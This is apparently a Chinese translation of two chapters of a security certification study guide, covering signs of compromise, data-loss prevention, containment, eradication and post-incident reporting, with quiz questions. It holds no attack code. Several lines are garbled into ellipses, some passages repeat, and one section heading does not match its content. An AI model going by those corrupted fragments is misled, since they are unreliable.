管理层的主要作用是全力支持和后盾 `IR`（事件响应）团队的所有工作，并确保这种支持贯穿整个组织。无疑，对 `IR` 流程的认可非常重要，因为它为该流程提供了合法性，但这种支持应该是一如既往且坚定不移的。管理层某些时候可能还会与媒体和其他外部实体进行互动。

## 执法部门

执法部门可能会参与许多事件。有时他们被要求参与其中，但在很多情况下，组织很可能会主动邀请执法部门介入。在决定是否让执法部门参与时，请考虑以下因素：

- 执法部门对事件的看法与公司安全团队的看法不同。虽然你的团队可能更有动力去停止攻击及其造成的损害，但执法部门可能倾向于让攻击继续，以便收集更多证据。
- 执法部门的专业水平各不相同。对于电脑等实体的物理盗窃，可能需要当地执法部门；但对于更抽象的犯罪和事件，涉及联邦级别的执法部门可能会获得更好的服务，因为那里有更丰富的技能组合。《美国爱国者法案》（`USA PATRIOT Act`）增强了执法部门的调查工具，并扩大了他们查看电子邮件通信、电话记录、互联网通信、医疗记录和财务记录的能力，这些可能很有帮助。
- 在引入执法部门之前，请尝试排除事件的其他潜在原因，如事故以及硬件或软件故障。
- 在明显违反法律的情况下（例如，儿童色情），请立即让执法部门参与。这包括任何重罪，无论对公司的损失可能有多小。

## 留存事件响应提供商

在某些情况下，组织没有资源投入来维护第一响应能力。在这种情况下，聘请第三方事件响应提供者的服务可能是明智的。虽然这可能对组织很有利，但有一些考虑和决策需要做出：

- 捕获和保存关键攻击数据的程序是什么？
- 服务提供者使用的是什么特定的威胁模型？
- 服务提供者是否使用红队、蓝队和白队？
- 服务提供者的每小时费用是多少？
- 你可以与服务提供者签订保留合同吗？
- 服务提供者使用哪些工具？
- 顾问的背景是什么？
- 组织将如何在以下方面与其事件响应提供者合作：
    - 提供必要的日志、包捕获和易失性内存转储？
    - 运行可能会污染证据的安全工具？

应该建立一个结构化的服务水平协议（`SLA`），并定期进行审查和测试，以确保双方都准备好检测、缓解和遏制安全事件。

## 使用常见症状选择最佳行动方案以支持事件响应

安全分析师无论是以第一响应者的角色还是支持性角色运行，在分析问题时都应该意识到事件的常见症状。此外，他们应该意识到每种症状所暗示的事件类型。这在时间紧迫的情况下可以导致做出更快速、更正确的行动选择。结合显示症状的组件来检查这些症状是有帮助的。以下章节介绍了网络、主机相关和应用程序症状，这些可能是安全事件的指示。

## 常见的网络相关症状

某些类型的网络活动是安全问题的潜在指标。以下章节描述了许多网络相关症状中最为常见的几种。

## 带宽消耗

每当带宽使用超过正常水平，且没有已知的合法活动产生流量时，你应该怀疑存在产生异常流量的安全问题，例如拒绝服务（`DoS`）和分布式拒绝服务（`DDoS`）攻击。出于这个原因，应该为一天中不同时间段的正常带宽使用创建基准。然后，当活动在这些不同时间段按指定百分比上升时，就可以设置警报。

有许多免费的网络带宽监控工具可用。其中包括 `BitMeter OS`、`Freemeter Bandwidth Monitor`、`BandwidthD` 和 `PRTG Bandwidth Monitor`。基于异常的入侵检测系统也可以“学习”正常流量模式并在检测到异常流量时触发警报。

图 8-1 显示了在 `BitMeter` 中设置警报的示例。

图 8-1. 在 `BitMeter` 中设置警报



## 信标行为 (`Beaconing`)

信标是指定期间隔离开网络的流量。这种流量可能由受感染的主机产生，它们正尝试与（或回传）感染主机的恶意方通信。虽然有一些可以识别信标的安全产品，包括防火墙、入侵检测系统、网络代理和 `SIEM` 系统，但创建和维护活动基准将帮助你识别在无活动期间（例如夜间）发生的信标。当检测到此类流量时，你应该在本地源设备中搜索可能生成这些“回家”调用的脚本。

## 注意

防火墙、`IDS`、网络代理和 `SIEM` 系统将在第 14 章“使用网络安全工具和技术”中进行深入讨论。

## 不规律的点对点通信

如果网络内节点之间发生的流量是正常的，但通信是不规律的，这可能是安全问题的迹象。至少，可能正在发生非法文件共享，最坏的情况下，这种点对点（`P2P`）通信可能是僵尸网络的结果。点对点僵尸网络在结构和操作上与普通僵尸网络不同。图 8-2 显示了传统僵尸网络的结构。点对点僵尸网络在结构和操作上与普通僵尸网络不同。图 8-2 显示了传统僵尸网络的结构。


## 扫描遍历

在进行渗透测试时，早期步骤之一是扫描网络。这些扫描遍历有几种类型。当它们发生且没有正在进行已知的渗透测试时，表明恶意个人可能正在进行扫描以准备攻击。以下是最常见的几种扫描：


- `Ping` 扫描：也称为 `ICMP` 扫描，`ping` 扫描使用 `ICMP` 通过 `ping` 已知网络中的所有 `IP` 地址来识别所有活动主机。所有响应的设备都是运行中的。
- 端口扫描：识别出所有活动主机后，端口扫描尝试连接到每个设备上的每个端口，并报告哪些端口是开放的、“正在监听”的。
- 漏洞扫描：漏洞扫描比其他类型的扫描更全面，它们可以识别开放端口和安全漏洞。好消息是，无凭据扫描比有凭据扫描暴露的信息少。无凭据扫描是指扫描程序缺乏对其所扫描设备的管理权限的扫描。你将在第 14 章中学习更多关于扫描工具的知识。

## 异常流量峰值

任何意外异常流量峰值都应该引起警惕。就像带宽使用的增加可能表明 `DoS` 或 `DDoS` 活动一样，异常流量峰值也可能指示此类活动。再次，了解你的流量模式并为这种流量节奏建立基准。出现流量峰值时，通常伴随着其他症状，如网络缓慢，并可能来自你部署的任何 `IPS` 或 `IDS` 系统的警报。

请记住，流量峰值还有其他合法原因。以下是可能导致这些峰值的正常活动：

- 局域网中的备份流量
- 病毒扫描器更新
- 操作系统更新
- 邮件服务器问题

## 常见主机相关症状

受攻击的主机表现出某些症状。在许多情况下，在单个主机看到或接收到讨论的任何可疑流量之前，可能不会对其检查。以下章节介绍了受攻击主机的某些症状。

## 处理器占用

当处理器忙于运行很少或没有运行程序来产生活动时，这可能表明处理器正在代表恶意软件工作。这是受攻击通常伴随着性能下降的关键原因之一。虽然 `Windows` 中的任务管理器设计用于帮助解决这个问题，但它有一些局限性。例如，当你尝试使用它时，你通常已经处于资源紧缺状态，而且打开需要一些时间。当它打开时，`CPU` 已经恢复正常，你无法知道是什么导致了它。

通过使用任务管理器，你可以确定哪个进程导致了 `CPU` 瓶颈。例如，图 8-4 显示，在任务管理器中，你可以点击“进程”选项卡，然后点击“`CPU`”列将 `CPU` 占用最高的进程排在最前面。在图 8-4 中，排名最高的用户是“系统空闲”，这是正常的。

## 图 8-4. 任务管理器



更好的工具是 `Sysinternals`，它可以在 `TechNet` 免费下载。你需要的该工具的特定部分是 `Process Explorer`，它可以让你在通知区域查看最高的 `CPU` 开销，而无需打开任务管理器。此外，`Process Explorer` 允许你查看任务管理器中出现的图表并识别过去导致峰值的原因，这是仅靠任务管理器是无法实现的。在图 8-5 中，你可以看到 `Process Explorer` 将每个进程分解为子进程。

## 图 8-5. `Process Explorer`



## 内存占用

受攻击主机的另一个指标是内存占用增加。许多时候，是为了识别是否有额外的程序已加载到 `RAM` 中以便处理。一旦加载，它们在执行任务就会使用 `RAM`，无论任务是什么。你可以使用与监控 `CPU` 占用相同的方法监控内存占用。如果内存占用无法解释，你应该对其进行调查。（回顾你在第 6 章中学到的缓冲区溢出的知识，这是一种可能显示内存占用增加症状的攻击。）

## 磁盘容量占用

主机上的可用磁盘空间无故减少会导致担忧。这可能是因为主机正在存储稍后要传输的信息。

## 未授权软件

任何未经授权软件的存在应该是另一个红旗。

可以看到的……的……文件。

任何未经授权软件的存在都应该是一个红旗。

以下是对于……的

- ……的的……的……软件。
- 审计应用程序的存在和使用。（`AppLocker` 可以做到此。）

## 恶意进程

恶意程序像正常程序一样使用进程来访问 `CPU`。这意味着它们的进程被视为恶意进程。

你有时可以使用任务管理器找到正在使用 `CPU` 或内存的进程，但再次强调，许多恶意软件不会出现在任务管理器中。使用 `Process Explorer` 或其他工具可能比使用任务管理器获得更好的结果。

如果你找到了违规进程并结束了该进程，不要忘记程序仍然在那里，你需要找到它并删除其所有关联文件和注册表项。

## 未授权的更改

如果组织拥有稳健的变更控制过程，设备上不应出现未经授权的更改。（变更控制过程见第 9 章“事件恢复和事件后响应”）。每当用户报告其设备出现未经授权的更改时，都应进行调查。许多恶意程序会做出用户明显的更改。文件丢失、文件被修改、新菜单选项、奇怪的错误消息和异常系统行为都是未经授权更改的指示。

## 未授权权限

未经授权的更改可能是权限提升的结果。检查所有系统账户对于应分配权限和权利的更改，特别注意具有管理权限的新账户。在分配权限时，始终遵循第 1 章讨论的最小权限原则。还要确保定期进行账户审查，以识别已提升权限和不再需要的账户。

## 数据外泄

数据外泄是从设备中窃取数据。任何关于丢失或删除数据的报告都应进行调查。在某些情况下，数据可能存在，但它已被复制并传输到……。某些软件工具可以帮助跟踪传输中的数据移动。

数据泄露防护（`DLP`）软件试图防止数据泄露。它通过对针对文档可以执行和不能执行的操作保持警觉来实现这一点。例如，它可能允许打印文档，但仅限于公司办公室。它也可能禁止通过电子邮件发送该文档。`DLP` 软件使用入站和出站过滤器来识别正在离开组织的敏感数据，并可以防止此类泄露。

另一种场景可能是发布本仅供销售部门可见的产品计划。你可以为该文档设置以下策略：

- 它不能通过电子邮件给销售部门成员以外的任何人。
- 它不能被打印。
- 它不能被复制。

你可以在两个地方实施此策略：

- **网络 `DLP`**：安装在边界附近的网络出口处，网络 `DLP` 用于分析网络流量。
- **端点 `DLP`**：端点 `DLP` 运行在组织内的终端用户工作站或服务器上。

你可以使用精确和不精确的方法来确定哪些是敏感的：

- **精确方法**：这些方法涉及内容注册，且几乎不会触发误报事件。
- **不精确方法**：这些方法可以包括关键词、词汇、正则表达式、扩展正则表达式、元数据标签、贝叶斯分析和统计分析。

`DLP` 系统的价值在于其定位和防止敏感数据泄露的精确程度。

## 常见应用程序相关症状

在某些情况下，症状并未出现在网络上或主机操作系统的活动中，而是体现在受损应用程序显示的行为中。这些指标中的一些将在后续章节中介绍。

## 异常活动

当应用程序行为异常且未正常运行时，可能是应用程序需要重新安装，或者它由于某种方式被恶意软件入侵。虽然所有应用程序偶尔都会出问题，但持续性问题或通常或从未出现过的问题表明应用程序已被入侵。

## 引入新账户

某些应用程序有自己的数据库。在这种情况下，你可能会发现以前不存在的账户——这应该引起警觉。许多入侵会创建具有管理权限的账户，供恶意个人或代表其运行的进程使用。

## 意外输出

当程序的输出不符合预期，且对话框被更改或框的显示顺序不正确时，表明应用程序已被修改。对异常输出的报告应进行调查。

## 意外的出站通信

任何意外的出站流量都应该进行调查，无论是通过网络监控发现的还是通过主机发现的。对于应用程序而言，这可能意味着数据正在传回给恶意个人。

## 服务中断

当应用程序在没有明显问题的情况下停止运行，或者在网络故障的情况下应用程序似乎无法通信时，可能是应用程序被入侵的迹象。任何此类中断都应进行调查。

## 内存溢出

内存溢出发生在应用程序使用的内存超过操作系统分配给它的内存时。在某些情况下，它会导致系统运行缓慢。在其他情况下，其目的可能是导致系统崩溃或执行命令。缓冲区溢出将在第 6 章中详细介绍。

## 考试准备

正如引言中“考试策略”部分提到的，你对考试准备有几个选择：此处的练习、`Pearson IT` 认证测试。

## 复习所有关键主题

复习本章最重要的主题，这些主题在页外边角用“关键主题”图标标记。表 8-2 列出了这些关键主题及其所在的页码。

### 表 8-2 第 8 章关键主题

| 关键主题元素 | 描述 | 页码 |
| :--- | :--- | :--- |
| 利益者角色 | 基于角色的职责 | |
| 图 8-2 | 传统僵尸网络 | |
| 图 8-3 | 点对点僵尸网络 | |
| 列表 | 点对点流量的安全问题 | |
| 列表 | 异常设备 | |
| 列表 | 扫描类型 | |

## 定义关键术语

定义本章的以下术语并对照术语表检查你的答案：

- 事件响应 (`incident response`)
- 利益者 (`stakeholder`)
- 升级程序 (`escalation procedures`)
- 带外 (`out-of-band`)
- 《美国爱国法案》(`USA PATRIOT Act`)
- 事件提供者 (`incident provider`)
- 信标 (`beaconing`)
- 点对点 (`peer-to-peer`)
- 点对点僵尸网络 (`peer-to-peer botnet`)
- 僵尸网络 (`botnet`)
- 无线键盘记录器 (`wireless key logger`)
- 异常接入点 (`rogue access point`)
- 异常交换机 (`rogue switch`)
- 移动黑客 (`mobile hacking`)
- `Ping` 扫描 (`ping sweep`)
- 端口扫描 (`port scan`)
- 漏洞扫描 (`vulnerability scan`)
- 任务管理器 (`Task Manager`)
- 进程管理器 (`Process Explorer`)
- 缓冲区溢出 (`buffer overflow`)
- `Windows AppLocker`
- 账户审查 (`account review`)
- 数据外泄 (`data exfiltration`)
- 数据泄露防护 (`DLP`) 软件 (`data loss prevention`)
- 网络 `DLP` (`network DLP`)
- 端点 `DLP` (`endpoint DLP`)
- 内存溢出 (`memory overflow`)

## 复习题

1. 下列哪个 `IR` 利益者负责评估非法计算机活动的责任？
   a. 人力资源
   b. 法务
   c. 营销
   d. 管理层

2. 谁的角色是全力支持和协助 `IR` 团队的所有工作，并确保这种支持贯穿整个组织？
   a. 人力资源
   b. 法务
   c. 营销
   d. 管理层

3. 用户联系了帮助热线抱怨电脑缺少敏感数据。通过检查防火墙日志，你发现他所担忧类型的数据在大一天前离开了网络，当时他不在公司。以下哪项是指从设备窃取数据并离开网络？
   a. 外泄 (`Exfiltration`)
   b. 信标 (`Beaconing`)
   c. 扫描 (`Sweep`)
   d. 扫描 (`Scan`)

4. 上周发生网络攻击后，团队正在审查与网络相关的入侵症状。以下哪项是与网络相关的入侵指标？
   a. 引入新账户
   b. 意外输出
   c. 意外的入站通信
   d. 不规则的点对点通信

5. 你正在进行内部安全评估，并想识别服务器上运行的服务。以下哪项可以识别设备上的服务？
   a. 端口扫描 (`port scan`)
   b. 漏洞扫描 (`vulnerability scan`)
   c. 信标 (`Beaconing`)
   d. `Ping` 扫描 (`ping sweep`)

6. 关于涉及执法部门，哪个陈述是不正确的？
   a. 执法部门看待事件的方式与安全团队不同。
   b. 在联系执法之前，你应该排除其他可能的原因。
   c. 在明显违法的情况下（例如色情），你应该立即联系执法部门。
   d. 更抽象的犯罪和事件可能由当地执法部门处理更好。

7. 你的一台服务器性能糟糕，你想确定它是否是 `DoS` 攻击的受害者。以下哪些症状可能是 `DoS` 攻击的指标？
   a. 带宽消耗
   b. 文件大小更改
   c. 新账户
   d. 扫描

8. 最近你的几台终端设备遭受了点对点攻击。经过几小时的调查，你发现攻击是通过无线方式进行的。以下哪项旨在诱导你的主机连接以进行点对点攻击？
   a. 无线键盘记录器
   b. 异常接入点
   c. 异常交换机
   d. `Ping` 扫描

9. 一位用户惊慌失措地称他的电脑被入侵了。你不确定，但继续调查证据。以下哪项不是主机被入侵的症状？
   a. 内存消耗
   b. 磁盘空间消耗
   c. 扫描
   d. 处理器消耗

10. 下列哪个 `IR` 利益者的角色负责创建用于员工响应培训的简报和其他教育性材料？
    a. 人力资源
    b. 法务
    c. 营销
    d. 管理层

# 第 9 章：事件恢复与事件后响应

本章涵盖了以下主题：

3.0 网络事件响应

3.5 总结事件恢复和事件后响应流程。

- 抑制技术（`Containment Techniques`）：讨论了分段、隔离、移除和逆向工程等技术。
- 消除技术（`Eradication Techniques`）：描述了移除威胁的方法，包括清理、重建/重映像以及安全弃置。
- 验证（`Validation`）：涵盖了验证移除结果的额外步骤，以确保当前状态是安全的，例如审计权限、验证日志功能以及确保适当的安全监控。
- 纠正措施（`Corrective Actions`）：描述了事件发生后需要采取的行动，例如更新事件响应（`IR`）计划以反映吸取的教训、遵循变更控制流程以及更新事件响应计划。
- 事件总结报告（`Incident Summary Report`）：讨论了事件发生后应创建的总结报告的内容。

事件发生后，事件响应和恢复过程就开始了。如果之前的章节中讨论的所有准备工作都做得适当，那么现在就是发挥作用的时候。必须完成三项高级任务：必须控制损害、消除威胁，并实施纠正措施以防止事件再次发生。这些主题在本章中介绍。

## “我已经熟悉这些了吗？”测验

“我已经熟悉这些了吗？”测验可以让你评估自己是否应该阅读整个章节。表 9-1 列出了本章的主要标题以及涵盖这些标题材料的“我已经熟悉这些了吗？”测验题，以便评估你对这些特定领域的了解程度。测验答案出现在附录 A，“‘我已经熟悉这些了吗？’测验与复习题答案”。如果你在这些自测题中错题不超过一个，你可能想直接进入“考试准备任务”。

表 9-1。“我已经熟悉这些了吗？”基础知识点与题目映射

| 基础知识点 | 题目 |
| :--- | :--- |
| 抑制技术 | 1, 2 |
| 消除技术 | 3 |
| 验证 | 6 |
| 纠正措施 | 4, 5 |
| 事件总结报告 | 7 |

1. 下列哪项用于第 2 层的分段？
   a. 端口安全
   b. 访问列表
   c. 阻塞的端口
   d. 断开的接口

2. 下列哪项指的是从受影响设备的日志中追溯事件的步骤？
   a. 指纹识别
   b. 逆向工程
   c. 枚举
   d. 映射

3. 下列哪项指的是通过多次覆盖驱动器移除威胁的所有痕迹？
   a. 去磁
   b. 重映像
   c. 清理 (`Sanitizing`)
   d. 删除

4. 下列哪项用于推动组织安全态的改进？
   a. 事件总结报告
   b. 事件响应计划
   c. 变更控制流程
   d. 教训文档

5. 下列一项收集所有日志并利用信息对可能的攻击进行推断？
   a. `Syslog` 服务器
   b. `AAA` 服务器
   c. `SIEM` 系统
   d. `CRM` 服务器

6. 下列哪项不是事件恢复验证阶段进行的操作之一？
   a. 补丁
   b. 隔离
   c. 扫描
   d. 审计权限

7. 下列哪项文档识别了事件何时以及被谁首次检测到？
   a. `SLA`
   b. 事件总结报告
   c. 教训报告
   d. 交互规则 (`Rules of engagement`)

## 基础知识点

## 抑制技术

就像受伤后的第一步是止血一样，在安全事件发生后，首要任务是抑制威胁以尽可能地减少损害。有很多种抑制技术。并不是所有技术适用于你，或在所有情况下都是建议的。适当抑制的益处之一是它让你有时间制定良好的修复策略。

## 分段

分段过程涉及利用现有的网络分段作为屏障，限制事件的范围以防止传播到其他分段。这些分段可以在 `OSI` 参考模型的第 3 层或第 2 层定义。

当你在第 3 层进行分段时，你是基于 `IP` 子网创建屏障。这些是物理局域网或 `VLAN`。在这一级别创建屏障涉及在路由器上部署访问控制列表，防止流量从一个子网移动到另一个子网。虽然简单关闭路由器接口是可能的，但在某些情况下这是不可取的，因为该接口用于访问比所在子网更多的子网。

在第 2 层分段可以通过多种方式实现：
- 你可以创建 `VLAN`，从而在第 2 层和第 3 层同时实现分段。
- 你可以创建私有 `VLAN` (`PVLAN`)，在第 2 层对现有的 `VLAN` 进行分段。
- 你可以使用端口安全在第 2 层隔离设备，而不将其从网络中移除。

在某些情况下，在网络边界使用分段可能是建议的（例如，停止受感染机器的出站通信或阻塞入站流量）。

## 隔离

隔离通常通过关闭设备接口来阻塞进出设备或设备的所有流量来实现。在某些情况下，在网络边界使用分段可能是建议的（例如，停止受感染机器的出站通信或阻塞入站流量）。

## 移除

逆向工程可以指从受影响设备的日志中追溯事件的步骤。当涉及未知恶意软件时，逆向工程术语可能指分析二进制文件。有三种方法可以让二进制文件变得可读：

![img/213874e5eb074b14725c90d1b72f337_0.png]

- 反汇编 (`Disassembly`)：指的是将机器码读入内存并将每条指令输出为字符串。分析此类输出需要很高的水平和特殊工具。
- 反编译 (`Decompiling`)：该过程尝试重建高级语言源代码。
- 调试 (`Debugging`)：该过程交互式地单步代码。有两种调试器：
    - 内核调试器 (`Kernel debugger`)：这种调试器运行在环 0（本质上是驱动程序级别），并可以直接访问内核。
    - 用户态调试器 (`Usermode debugger`)：这种调试器仅访问操作系统的用户态空间。大多数情况下这足够了，但并非总是如此。在 `rootkit` 甚至更高级保护方案的情况下，最好进入内核调试器。

## 消除技术

在威胁被抑制后，下一步是移除或消除威胁。在某些情况下，可以在不格式化硬盘驱动的情况下清理设备，但在许多其他情况下，必须这样做来完全移除威胁。在本节中，我们将查看一些移除方法。

## 清理 (`Sanitization`)

清理指的是通过多次覆盖驱动器移除威胁的所有痕迹，以确保威胁被移除。这对于机械硬盘驱动器效果良好，但固态硬盘面临挑战，因为它们无法被覆盖。固态硬盘提供了用于删除驱动器上数据的清理命令。安全专业人员应该研究这些命令以确保是有效的。

## 重建/重映像 (`Reconstruction`/`Reimage`)

一旦设备经过清理，必须重建系统。可以通过重新安装操作系统、应用所有系统更新、重新安装反恶意软件以及实施任何组织设置来实现。然后，必须安装并配置任何应用程序。如果该设备是代表网络运行某些服务的服务器（例如 `DNS`、`DHCP`），则必须重新配置该服务。

这一切不仅工作量大，而且耗时。更好的方法是维护网络中各种类型设备的标准镜像，以便你可以使用这些镜像快速启动设备。为了让这种方法更加无缝，拥有同一设备的备份镜像可以消除了在使用标准镜像时可能需要重新配置的所有内容的麻烦。

## 安全处置

在某些情况下，你可能决定直接废弃一个受损的设备（或存储驱动器），而不是尝试对设备进行清理和重复使用。在这种情况下，你希望以安全的方式对其处置。

在安全处置的情况下，组织必须考虑某些问题，包括以下内容：

- 移除或更换是否会给网络引入任何安全漏洞？
- 如何以有序的方式终止系统以避免中断业务连续性？
- 留在任何系统上的任何残留数据应如何清除？
- 是否有法律或监管问题会指导数据的销毁？

每当从存储介质上擦除或移除数据时，可能会留下残留数据。这允许组织在处置介质时重构数据，并且未经授权的个人或团体可能会访问这些数据。在考虑数据遗留问题时，安全专业人员必须理解三个应对措施：

- **清除 (`Clearing`)**：清除包括从介质中移除数据，使其无法使用普通的文件恢复技术和工具进行重构。通过这种方法，数据只有使用特殊的取证技术才能恢复。
- **净化 (`Purging`)**：也称为清理（`sanitization`），净化使得即使使用先进的取证技术也无法访问数据。通过这种技术，数据应该是不可恢复的。
- **销毁 (`Destruction`)**：销毁涉及破坏数据所在的介质。去磁是另一种销毁技术，它让介质暴露在强力交变磁场中，移除所有之前写入的数据，并使介质处于磁随机化（空白）状态。物理销毁涉及从物理上拆解介质或通过化学方法改变其。

## 验证

一旦威胁得到修复，你就应该采取措施确保一切都恢复到正常的安全状态。这些步骤验证了你已经完成工作，并可以根据学到的教训采取纠正措施。

## 补丁

在许多情况下，威胁或攻击的发生是因为缺少安全补丁所可能的。你应该对各种组件进行更新，或至少检查更新。这包括操作系统的所有补丁、任何正在运行的应用程序更新，以及所有已安装的反病毒软件的更新。

顺便检查设备可能需要的任何固件更新。这对于防火墙、`IDS` 和 `IPS` 等硬件安全设备来说尤其如此。如果任何路由器或交换机被攻破，检查软件和固件更新。

## 权限

许多时候，攻击者通过更改本地数据库或目录服务服务器中与设备相关的条目的权限来破坏设备。所有权限都应该经过审查，以确保它们都处于适当的状态。适当的状态可能与事件发生之前的状态不同。有时你可能会发现，虽然权限在事件发生之前的设置方式并不是危险的，但它们是不正确的。确保检查配置数据库，以确保设置与预设设置匹配。

你还应该根据在事件期间学到的教训对权限进行更改。在这种情况下，确保新设置经过变更控制审查，并将任何已批准的更改反映在配置数据库中。

## 扫描

即使在你采取了此处描述的所有步骤之后，也要考虑使用漏洞扫描器来扫描受影响的设备或设备网络。在这样做之前，确保你已经更新了扫描器，使其能够识别最新的漏洞和威胁。这将有助于发现可能仍然存在的残留漏洞。

## 验证日志/向安全监控的通信

为了确保未来拥有良好的安全数据，你需要确保所有与安全相关的日志都在收集数据。特别注意日志在满时的反应方式。在某些设置下，日志开始用新条目覆盖旧条目。在其他设置下，服务在日志满时停止收集事件。安全日志条目需要保留。这可能需要对日志进行手动存档并随后清除。某些日志可以自动实现这一点，而另一些需要脚本。如果所有方法失败，经常检查日志以评估其状态。

许多组织将所有安全日志发送到中心位置。这可以是 `Syslog` 服务器，也可以安全信息和事件管理（`SIEM`）系统。这些系统不仅收集所有日志，还利用信息对可能的攻击进行推理。访问所有日志允许系统关联来自响应设备的所有数据。

无论你是记录到 `syslog` 服务器还是 `SIEM` 系统，你都应该验证设备与中央服务器之间的通信是否顺畅进行。如果你必须手动重建系统而不是从镜像恢复，这一点尤为真实，因为在重建设备时会有更多人为错误的机会。

## 纠正措施

在几乎每一次安全事件中，你都会学到关于该场景的需要更改环境的知识。然后你必须采取纠正措施来应对新威胁，或通过更改来消除你发现的漏洞。

## 教训报告

应草拟的第一份文档是教训报告。它简要列出并讨论了目前关于攻击或此前未知的环境的知识。应在事件发生后不久通过会议编制。该报告提供了用于驱动组织安全态改进的价值信息。该报告可能会回答以下问题：

- 哪些做法是对的，哪些是错误的？
- 我们如何改进？
- 哪些需要更改？
- 事件的成本是多少？

## 变更控制流程

教训报告可能会产生对基础设施进行的若干更改。所有更改无论必要性如何，都应该经过标准的变更控制流程。它们应该提交给变更控制委员会，检查不可预见的后果，并研究如何整合到当前环境中。只有在获得批准后才予以实施。对于此类紧急变更，你可能会发现并在变更管理系统中创建一个评估“快速通道”将非常有帮助。

## 更新应急响应计划

教训练习可能还会发现 `IR` 计划中的缺陷。如果是这样，你应该相应地更新计划以反映所需的程序更改。完成后，确保计划的所有软件和纸质版本都已更新，以便在下一次事件发生时每个人都使用相同的文档。

## 事件总结报告

所有利益相关者都应该收到一份总结事件的文档。它不应包含过多的高技术语言，编写方式应让非技术读者也能理解事件的要点。以下是应包含的一些亮点：

- 问题首次被发现的时间以及是谁发现的
- 事件范围
- 如何进行遏制和根除
- 恢复期间执行的工作
- 网络事件响应小组 (`CIRT`) 有效的领域
- 需要改进的领域

## 备考任务

如引言中“备考策略”部分提到的，你有几种方法可以进行备考：此处的练习题、第 15 章“最终准备”以及 `Pearson IT` 认证引擎中的模拟考试。

## 复习所有关键主题

复习本章最重要的主题，这些主题在页外边缘处用“关键主题”（`Key Topics`）图标标记。表 9-2 列出了这些关键主题及其所在的页码。

表 9-2. 第 9 章的关键主题

| 关键主题元素 | 描述 | 页码 |
